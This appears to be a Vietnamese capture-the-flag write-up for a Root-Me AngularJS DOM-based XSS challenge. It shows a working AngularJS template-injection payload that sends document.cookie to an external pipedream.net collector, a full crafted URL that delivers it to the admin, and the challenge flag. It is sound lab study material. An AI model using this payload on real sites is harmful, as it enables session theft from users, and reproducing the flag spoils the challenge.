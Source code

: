 # WRITE UP

**Challenge:** [**XSS DOM Based - Angular**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)

Thử submit giá vị vào input, ta xem được script mà website handle:

<img src="./media/image1.png" style="width:6.5in;height:3.46597in" alt="Graphical user interface, text, application Description automatically generated" />

Mất khá nhiều thời gian để tránh filter và hiểu code. Có vẻ không thể attack bằng cách “hiểu” code được. Đề bài có tên là **AngularJS,** tra cứu cheatsheet XSS Angular, ta có thể tìm được payload: **$on.constructor('alert(1)')()**

Để khiến JS thực thi command, ta chèn {{ }} để triển khai expression:

**{{$on.constructor('alert(1)')()}}**

Tuy vậy, lúc chèn payload, website trả về:

<img src="./media/image2.png" style="width:6.24127in;height:2.78056in" alt="A screenshot of a computer Description automatically generated" />

Thử thay **' "** thì đã chèn thành công script:

<img src="./media/image3.png" style="width:6.5in;height:1.06319in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

Chỉnh sửa payload để thực thi DOM Based XSS attack. Ta sử dụng **\\"** để thoát chuỗi **"":**

Payload: **{{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"+document.cookie")()}}**

<img src="./media/image4.png" style="width:5.60752in;height:2.77081in" alt="Graphical user interface, text, application, email Description automatically generated" />

Payload đã chạy được. Giờ thì gửi payload đến admin qua Contact tab:

[*http://challenge01.root-me.org/web-client/ch35/?name={{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"%20document.cookie")()}}*](http://challenge01.root-me.org/web-client/ch35/?name=%7b%7b$on.constructor(%22document.location=\%22https://eol9dtzbk9673pb.m.pipedream.net?cookie=\%22%20document.cookie%22)()%7d%7d)

<img src="./media/image5.png" style="width:4.37015in;height:1.53329in" alt="Graphical user interface, text, application, website Description automatically generated" />

HTTP Request nhận về:

<img src="./media/image6.png" style="width:6.12427in;height:2.54327in" alt="Graphical user interface, text, application Description automatically generated" />

<img src="./media/image7.png" style="width:5.42995in;height:2.95398in" alt="A screenshot of a computer Description automatically generated" />

**Flag:** rootme{@NGu1@R\_J$\_1$\_C001}
